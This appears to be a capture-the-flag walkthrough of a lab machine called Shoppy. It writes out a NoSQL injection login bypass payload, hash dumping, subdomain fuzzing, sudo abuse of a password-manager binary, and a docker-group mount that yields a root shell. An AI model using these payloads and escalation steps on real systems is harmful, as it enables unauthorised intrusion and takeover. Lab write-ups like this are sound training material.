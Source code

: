 ```yaml
---
layout: post
title: "Shoppy"
date: 2025-04-20 
categories: CPTS Playlist
---
```

# attack path

First enumerate the open ports then use nmap to scan its service

```bash
rustscan -a 10.129.227.233

result:
Open 10.129.227.233:22
Open 10.129.227.233:80
Open 10.129.227.233:9093

sudo nmap -sC -sV -p 22,80,9093 10.129.227.233

```

Add shoppy.htb to /etc/hosts

Nothing on the site, let’s enumerate subdirectories

```bash
gobuster dir -u http://shoppy.htb -w /usr/share/wordlists/dirb/common.txt

result:
/Admin                (Status: 302) [Size: 28] [--> /login]
/admin                (Status: 302) [Size: 28] [--> /login]
/ADMIN                (Status: 302) [Size: 28] [--> /login]
/assets               (Status: 301) [Size: 179] [--> /assets/]
/css                  (Status: 301) [Size: 173] [--> /css/]
/exports              (Status: 301) [Size: 181] [--> /exports/]
/favicon.ico          (Status: 200) [Size: 213054]
/fonts                (Status: 301) [Size: 177] [--> /fonts/]
/images               (Status: 301) [Size: 179] [--> /images/]
/js                   (Status: 301) [Size: 171] [--> /js/]
/login                (Status: 200) [Size: 1074]
/Login                (Status: 200) [Size: 1074]

```

Spotted the app to be run by nodejs which uses mongodb database which is vulnerable to nosql injection

```bash
In the login form:
username: admin' || '1' == '1

We get logged in
```

Now we get logged in there is a search user function. If the user exist then we get returned a export command which exports user and their hashes. We can use the same method as before to exploit the SQL injection vulnerability:

```bash
search: admin' || '1' == '1
Then click export and we get two users and their password hashes
```

![image.png]({{ site.baseurl }}/assets/shoppy/image.png)

Found user’s josh’s password through crackstation

We logged in as Josh and see nothing new, let’s try sshing. Does not work.

Let’s try enumerating for subdomains:

```bash
/usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt

ffuf -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt:FUZZ -u http://FUZZ.shoppy.htb -t 10

http://shoppy.htb/admin/

gobuster dir -u http://shoppy.htb/admin/ -w /usr/share/wordlists/dirb/common.txt

ffuf -u http://shoppy.htb -H "Host: FUZZ.shoppy.htb" -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -fw 5
```

For some reason the other ffuf command crashes wifi… 

Found subdomain mattermost. Login as user josh.

We check our sudo privleges

```bash
sudo -l

User jaeger may run the following commands on shoppy:
    (deploy) /home/deploy/password-manager
    
That means we can run the binary as the deploy user:

sudo -u deploy /home/deploy/password-manager
```

We find master password and the password manager gave us the credentials for user deploy. Now let’s login as user deploy

we get a shell. Let’s upgrade

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Running sudo results nothing. Running id tells us we are in the docker group

Let’s check what docker images there are:

```bash
docker image ls

result:
REPOSITORY   TAG       IMAGE ID       CREATED       SIZE
alpine       latest    d7d3d98c851f   2 years ago   5.53MB
```

Let’s  mount root inside the container:

```bash
docker -H unix:///var/run/docker.sock run -v /:/mnt --rm -it alpine chroot /mnt bash

And we get a root shell
```